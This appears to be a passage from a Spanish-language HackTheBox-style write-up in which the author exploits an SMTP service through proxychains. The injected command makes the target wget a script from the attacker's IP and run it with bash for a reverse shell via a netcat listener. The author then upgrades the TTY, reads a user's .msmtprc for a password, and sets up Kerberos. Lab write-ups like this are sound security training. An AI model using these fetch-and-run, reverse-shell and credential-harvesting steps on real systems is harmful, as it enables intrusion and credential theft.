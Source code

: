 1. nos ponemos en escucha por el puerto 443

    ```bash
    nc -nlvp 443
    ```

1. lanzamos el exploit desde proxychains

    ```bash
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'wget 10.10.14.29 -O /dev/shm/rev
    proxychains -q python3 smtpd_exploit.py 10.241.251.113 25 'bash /dev/shm/rev
    ```

Ya hemos ganado acceso al contenedor como root.

### Tratamiento de la TTY {-}

```bash
script /dev/null -c bash
^Z
stty raw -echo; fg
-> reset
-> xterm
export TERM=xterm
export SHELL=bash

stty -a

stty rows <rownb> columns <colnb>
```


Aqui ya miramos si podemos leer la flag pero no es el caso. Vemos un fichero `.msmtprc` en el directorio home del usuario j.nakazawa

```bash
cd /home/j.nakazawa
cat .msmtprc
```

Podemos ver una contraseña. Intentamos connectarnos por ssh a la maquina victima pero la credenciales no son validas. Ademas podemos ver
un mensaje de error un poco raro que habla de GSSAPI-With-MIC. Buscando por internet vemos que el servicio de authentification del ssh
esta usando authenticacion Kerberos.

### Configuracion de krb5 {-}

```bash
apt install krb5-user
dpkg-reconfigure krb5-config

Reino predeterminado de la version5 de Kerberos: REALCORP.HTB
Añadir las config en el ficher /etc/krb5.conf: Si
Servidores de Kerberos para su reino: 10.10.10.224
Servidor administrativo para su reino: 10.10.10.224
```
